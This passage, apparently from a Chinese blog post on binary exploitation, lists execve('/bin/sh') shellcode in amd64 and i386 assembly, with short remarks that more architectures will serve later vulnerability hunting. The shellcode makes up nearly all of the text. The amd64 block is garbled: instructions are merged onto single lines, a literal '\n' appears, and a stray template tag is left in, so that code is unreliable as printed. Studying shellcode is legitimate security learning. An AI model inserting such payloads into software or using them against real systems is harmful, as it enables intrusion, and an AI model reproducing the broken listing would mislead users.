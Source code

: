 {% codeblock lang:asm %}
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
/* push '/bin///sh\\x00' */
push 0x68 mov
rax, 0x732f2f2f6e69622f
push rax
mov rdi, rsp
/* push argument array ['sh\\x00'] */
/* push 'sh\\x00' */
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101 xor esi, esi
/* 0 */
push rsi
/* null terminate */
push 8 pop rsi
add rsi, rsp push rsi
/* 'sh\\x00' */
mov rsi, rsp\n xor edx, edx
/* 0 */
/* call execve() */
push SYS_execve
/* 0x3b */
pop rax syscall
{% endcodeblock %}

大体上来看，是利用函数指针来调取系统的`sys_execve`函数，传入"bin/sh"作为参数，最后引起调用


{% codeblock lang:asm %}
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
/* push '/bin///sh\\x00' */
push 0x68
push 0x732f2f2f
push 0x6e69622f
mov ebx, esp
/* push argument array ['sh\\x00'] */
/* push 'sh\\x00\\x00' */
push 0x1010101
xor dword ptr [esp], 0x1016972
xor ecx, ecx
push ecx
/* null terminate */
push 4
pop ecx
add ecx, esp
push ecx
/* 'sh\\x00' */
mov ecx, esp
xor edx, edx
/* call execve() */
push SYS_execve
/* 0xb */
pop eax int 0x80
{% endcodeblock %}
除了一些指令集的不同外，整体的效果和过程与amd64架构一致。

{% endtabs %}

还有更多的架构和更多可运行的shell指令，这里就不一一列出了，今后的漏洞挖掘中可能还会利用到它们。
